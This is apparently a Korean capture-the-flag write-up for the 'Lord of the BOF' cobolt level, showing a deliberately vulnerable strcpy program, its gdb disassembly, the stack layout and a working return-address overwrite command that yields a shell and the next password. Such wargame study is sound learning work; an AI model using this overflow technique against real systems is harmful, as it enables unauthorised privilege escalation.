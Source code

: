 Gremlin -> Cobolt

**cobolt.c**
```C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
저번 문제와 비교했을 때, 버퍼의 크기가 줄어든 것 말고는 차이점이 없습니다. 버퍼안에 쉘코드를 넣지 못하게 하려는 방법인데 저는 환경변수를 이용해서 풀 것이기 때문에 상관이 없습니다.<br>
이번에는 환경변수를 등록하고 주소를 구하는 과정은 생략하겠습니다.<br><br>

파일을 복사하여 gdb로 까보았습니다.
```
0x8048430 <main>:	push   %ebp
0x8048431 <main+1>:	mov    %ebp,%esp
0x8048433 <main+3>:	sub    %esp,16
0x8048436 <main+6>:	cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:	jg     0x8048453 <main+35>
0x804843c <main+12>:	push   0x80484d0
0x8048441 <main+17>:	call   0x8048350 <printf>
0x8048446 <main+22>:	add    %esp,4
0x8048449 <main+25>:	push   0
0x804844b <main+27>:	call   0x8048360 <exit>
0x8048450 <main+32>:	add    %esp,4
0x8048453 <main+35>:	mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:	add    %eax,4
0x8048459 <main+41>:	mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:	push   %edx
0x804845c <main+44>:	lea    %eax,[%ebp-16]
0x804845f <main+47>:	push   %eax
0x8048460 <main+48>:	call   0x8048370 <strcpy>
0x8048465 <main+53>:	add    %esp,8
0x8048468 <main+56>:	lea    %eax,[%ebp-16]
0x804846b <main+59>:	push   %eax
0x804846c <main+60>:	push   0x80484dc
0x8048471 <main+65>:	call   0x8048350 <printf>
0x8048476 <main+70>:	add    %esp,8
0x8048479 <main+73>:	leave  
0x804847a <main+74>:	ret    
```
main+56부분으로 버퍼의 크기가 16이라는 것을 알 수 있으며, strcpy 함수는 입력의 크기를 검사하지 않기 때문에 오버플로가 일어나게 하는 함수 입니다.<br>
그럼 공격을 해보겠습니다. 이번에 등록된 환경변수의 주소는 "0xbffffe2a" 입니다.<br><br>

>>buffer[16] + SFP[4] + RET[4]<br>
>>dummy[20] + EGG's add[4]<br>

다음과 같이 공격을 할 수 있습니다.
```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*20 + "\x2a\xfe\xff\xbf"'`
*þÿ¿
bash$ my-pass
euid = 502
hacking exposed
```
공격에 성공한 것을 볼 수 있습니다.